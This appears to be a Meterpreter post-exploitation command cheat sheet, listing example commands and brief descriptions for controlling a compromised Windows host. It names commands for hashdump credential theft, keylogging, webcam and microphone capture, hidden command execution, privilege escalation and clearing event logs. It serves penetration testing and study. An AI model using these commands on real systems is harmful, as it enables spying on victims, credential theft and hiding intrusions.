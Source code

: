 ## Core

- migrate 1234
- run post/windows/gather/enum_logged_on_users
- sessions -i 2

## fs

- cd C:\Windows\Temp
- cat C:\Windows\System32\drivers\etc\hosts
- edit notes.txt
- rm old.log
- search -f \*.pdf
- upload tool.exe C:\Temp\tool.exe
- download secret.txt

## network

- portfwd add -l 8080 -p tcp -r 127.0.0.1 -L 80

## system

- kill 4321
- pkill chrome
- execute -f cmd.exe -i -H

## etc

- webcam_snap -i 1
- webcam_stream -i 1
- record_mic -d 10

## Core Commands

- `background` – Backgrounds the current session
- `exit` – Terminate the Meterpreter session
- `guid` – Get the session GUID (Globally Unique Identifier)
- `help` – Displays the help menu
- `info` – Displays information about a Post module
- `irb` – Opens an interactive Ruby shell on the current session
- `load` – Loads one or more Meterpreter extensions
- `migrate PID` – Migrate Meterpreter to another process
- `run` – Executes a Meterpreter script or Post module
- `sessions` – Quickly switch to another session

## File System Commands

- `cd` – Change directory
- `ls` (or `dir`) – List files in the current directory
- `pwd` – Print the current working directory
- `edit` – Edit a file
- `cat` – Show the contents of a file
- `rm` – Delete a file
- `search` – Search for files
- `upload` – Upload a file or directory
- `download` – Download a file or directory

## Networking Commands

- `arp` – Display the host ARP (Address Resolution Protocol) cache
- `ifconfig` – Display network interfaces
- `netstat` – Display network connections
- `portfwd` – Forward a local port to a remote service
- `route` – View and modify the routing table

## System Commands

- `clearev` – Clear event logs
- `execute` – Execute a command
- `getpid` – Show current process ID
- `getuid` – Show user Meterpreter is running as
- `kill` – Terminate a process
- `pkill` – Terminate processes by name
- `ps` – List running processes
- `reboot` – Reboot the remote computer
- `shell` – Open a system command shell
- `shutdown` – Shutdown the remote computer
- `sysinfo` – Get information about the remote system

## Other Commands

- `idletime` – Show how long the user has been idle
- `keyscan_dump` – Dump the keystroke buffer
- `keyscan_start` – Start capturing keystrokes
- `keyscan_stop` – Stop capturing keystrokes
- `screenshare` – Watch the remote desktop in real time
- `screenshot` – Grab a screenshot
- `record_mic` – Record audio from microphone
- `webcam_chat` – Start a video chat
- `webcam_list` – List webcams
- `webcam_snap` – Take a snapshot from a webcam
- `webcam_stream` – Play a webcam video stream
- `getsystem` – Attempt to elevate to local system
- `hashdump` – Dump SAM (Security Account Manager) database

---
